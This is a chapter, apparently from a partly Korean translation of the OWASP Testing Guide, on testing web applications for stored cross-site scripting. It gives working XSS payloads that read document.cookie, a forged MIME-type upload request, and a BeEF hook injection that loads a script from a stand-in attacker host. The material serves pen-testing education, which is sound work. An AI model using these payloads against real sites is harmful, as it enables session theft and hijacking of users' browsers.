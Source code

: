 ============================================================================================
OTG-INPVAL-002 (저장형 크로스 사이트 스크립팅 침투 테스트)
============================================================================================

|

개요
============================================================================================ 

저장형 크로스 사이트 스크립팅은 XSS 중 가장 위협적인 형태입니다.

Web applications that allow users to store data are potentially exposed to this type of attack. This chapter illustrates examples of stored cross site scripting injection and related exploitation scenarios. 
Stored XSS occurs when a web application gathers input from a user which might be malicious, and then stores that input in a data store for later use. The input that is stored is not correctly filtered. As a consequence, the malicious data will appear to be part of the web site and run within the user's browser under the privileges of the web application. Since this vulnerability typically involves at least two requests to the application, this may also called second-order XSS. 
This vulnerability can be used to conduct a number of browser-based attacks including: 

- Hijacking another user's browser 
- Capturing sensitive information viewed by application users 
- Pseudo defacement of the application 
- Port scanning of internal hosts ("internal" in relation to the users of the web application) 
- Directed delivery of browser-based exploits 
- Other malicious activities 


Stored XSS does not need a malicious link to be exploited. A successful exploitation occurs when a user visits a page with a stored XSS. The following phases relate to a typical stored XSS attack scenario: 

- Attacker stores malicious code into the vulnerable page 
- User authenticates in the application 
- User visits vulnerable page 
- Malicious code is executed by the user's browser 

This type of attack can also be exploited with browser exploitation frameworks such as BeEF, XSS Proxy and Backframe. These frameworks allow for complex JavaScript exploit development. 

Stored XSS is particularly dangerous in application areas where users with high privileges have access. When the administrator visits the vulnerable page, the attack is automatically executed by their browser. This might expose sensitive information such as session authorization tokens. 

|

테스트 방법
============================================================================================

|

Black Box testing
-----------------------------------------------------------------------------------------

The process for identifying stored XSS vulnerabilities is similar to the process described during the testing for reflected XSS. 

**Input Forms**

The first step is to identify all points where user input is stored into the back-end and then displayed by the application. Typical examples of stored user input can be found in: 

- User/Profiles page: the application allows the user to edit/ change profile details such as first name, last name, nickname, avatar, picture, address, etc. 
- Shopping cart: the application allows the user to store items into the shopping cart which can then be reviewed later 
- File Manager: application that allows upload of files 
- Application settings/preferences: application that allows the user to set preferences 
- Forum/Message board: application that permits exchange of posts among users 
- Blog: if the blog application permits to users submitting comments 
- Log: if the application stores some users input into logs. 


Analyze HTML code 

Input stored by the application is normally used in HTML tags, but it can also be found as part of JavaScript content. At this stage, it is fundamental to understand if input is stored and how it is positioned in the context of the page. Differently from reflected XSS, the pen-tester should also investigate any out-of-band channels through which the application receives and stores users input. 

Note: All areas of the application accessible by administrators should be tested to identify the presence of any data submitted by users. 

Example: Email stored data in index2.php 



The HTML code of index2.php where the email value is located: 

.. code-block:: html

    <input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com" /> 


In this case, the tester needs to find a way to inject code outside the <input> tag as below: 

.. code-block:: html

    <input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com"> MALICIOUS CODE <!-- /> 


Testing for Stored XSS 

This involves testing the input validation and filtering controls of the application. Basic injection examples in this case: 

.. code-block:: html

    aaa@aa.com"><script>alert(document.cookie)</script> 

.. code-block:: html

    aaa@aa.com%22%3E%3Cscript%3Ealert(document.cookie)%3C%2Fscript%3E 

Ensure the input is submitted through the application. This normally involves disabling JavaScript if client-side security controls are implemented or modifying the HTTP request with a web proxy such as WebScarab. It is also important to test the same injection with both HTTP GET and POST requests. The above injection results in a popup window containing the cookie values. 


Result Expected: 

The HTML code following the injection: 

.. code-block:: html

    <input class="inputbox" type="text" name="email" size="40" value="aaa@aa.com">
    <script>alert(document.cookie)</script> 

The input is stored and the XSS payload is executed by the browser when reloading the page. If the input is escaped by the application, testers should test the application for XSS filters. For instance, if the string "SCRIPT" is replaced by a space or by a NULL character then this could be a potential sign of XSS filtering in action. Many techniques exist in order to evade input filters (see testing for reflected XSS chapter). It is strongly recommended that testers refer to XSS Filter Evasion , RSnake and Mario XSS Cheat pages, which provide an extensive list of XSS attacks and filtering bypasses. Refer to the whitepapers and tools section for more detailed information. 


Leverage Stored XSS with BeEF 


Stored XSS can be exploited by advanced JavaScript exploitation frameworks such as BeEF, XSS Proxy and Backframe

- A typical BeEF exploitation scenario involves: 
- Injecting a JavaScript hook which communicates to the attacker's browser exploitation framework (BeEF) 
- Waiting for the application user to view the vulnerable page where the stored input is displayed 
- Control the application user's browser via the BeEF console 


The JavaScript hook can be injected by exploiting the XSS vulnerability in the web application. 
Example: BeEF Injection in index2.php: 
aaa@aa.com"><script src=http://attackersite/hook.js></ 
script> 
When the user loads the page index2.php, the script hook.js is executed by the browser. It is then possible to access cookies, user screen-shot, user clipboard, and launch complex XSS attacks. 

Result Expected 


This attack is particularly effective in vulnerable pages that are viewed by many users with different privileges. 

File Upload 

If the web application allows file upload, it is important to check if it is possible to upload HTML content. For instance, if HTML or TXT files are allowed, XSS payload can be injected in the file uploaded. The pen-tester should also verify if the file upload allows setting arbitrary MIME types. 
Consider the following HTTP POST request for file upload: 

.. code-block:: html

    POST /fileupload.aspx HTTP/1.1 
    [¡¦] 

    Content-Disposition: form-data; name="uploadfile1"; 
    filename="C:\Documents and Settings\test\Desktop\test.txt" 
    Content-Type: text/plain 

    test 

This design flaw can be exploited in browser MIME mishandling attacks. For instance, innocuous-looking files like JPG and GIF can contain an XSS payload that is executed when they are loaded by the browser. This is possible when the MIME type for an image such as image/gif can instead be set to text/html. In this case the file will be treated by the client browser as HTML. 


HTTP POST Request forged: 


.. code-block:: html

    Content-Disposition: form-data; name="uploadfile1"; 
    filename="C:\Documents and Settings\test\Desktop\test.gif" 
    Content-Type: text/html 
    
    <script>alert(document.cookie)</script> 

Also consider that Internet Explorer does not handle MIME types in the same way as Mozilla Firefox or other browsers do. For instance, Internet Explorer handles TXT files with HTML content as HTML content. For further information about MIME handling, refer to the whitepapers section at the bottom of this chapter. 

|

Gray Box testing 
-----------------------------------------------------------------------------------------

Gray Box testing is similar to Black box testing. In gray box testing, the pen-tester has partial knowledge of the application. In this case, information regarding user input, input validation controls, and data storage might be known by the pen-tester. 
Depending on the information available, it is normally recommended that testers check how user input is processed by the application and then stored into the back-end system. The following steps are recommended: 

- Use front-end application and enter input with special/invalid characters 
- Analyze application response(s) 
- Identify presence of input validation controls 
- Access back-end system and check if input is stored and how it is stored 
- Analyze source code and understand how stored input is rendered by the application 

If source code is available (White Box), all variables used in input forms should be analyzed. In particular, programming languages such as PHP, ASP, and JSP make use of predefined variables/functions to store input from HTTP GET and POST requests. 
The following table summarizes some special variables and functions to look at when analyzing source code: 

|

Tools 
============================================================================================

- PHP Charset Encoder(PCE): http://yehg.net/encoding/
- HackVertor: http://www.businessinfo.co.uk/labs/hackvertor/
- WebScarab 
- Burp Proxy
- OWASP Zed Attack Proxy (ZAP)
- XSS Assistant: http://www.greasespot.net/ 
- XSS-Proxy: http://xss-proxy.sourceforge.net/ 
- BeEF -http://www.beefproject.com 

|

References
============================================================================================

OWASP Resources 
--------------------------------------------------------------------------------------------

- XSS Filter Evasion Cheat Sheet 


Books 
--------------------------------------------------------------------------------------------

- Joel Scambray, Mike Shema, Caleb Sima -"Hacking Exposed Web Applications", Second Edition, McGraw-Hill, 2006 - ISBN 0-07-226229-0 
- Dafydd Stuttard, Marcus Pinto - "The Web Application's Handbook - Discovering and Exploiting Security Flaws", 2008, Wiley,ISBN 978-0-470-17077-9 
- Jeremiah Grossman, Robert "RSnake" Hansen, Petko "pdp" D. 
Petkov, Anton Rager, Seth Fogie - "Cross Site Scripting Attacks: XSS Exploits and Defense", 2007, Syngress, ISBN-10: 1-59749154-3 


Whitepapers 
--------------------------------------------------------------------------------------------

- RSnake: "XSS (Cross Site Scripting) Cheat Sheet": http://ha.ckers.org/xss.html 
- CERT: "CERT Advisory CA-2000-02 Malicious HTML Tags Embedded in Client Web Requests": http://www.cert.org/advisories/CA-2000-02.html 
- Amit Klein: "Cross-site Scripting Explained": http://courses.csail.mit.edu/6.857/2009/handouts/cssexplained.pdf 
- Gunter Ollmann: "HTML Code Injection and Cross-site Scripting": http://www.technicalinfo.net/papers/CSS.html 
- CGISecurity.com: "The Cross Site Scripting FAQ": http://www.cgisecurity.com/xss-faq.html 
- Blake Frantz: "Flirting with MIME Types: A Browser's Perspective": http://www.leviathansecurity.com/pdf/Flirting%20with%20MIME%20Types.pdf 

|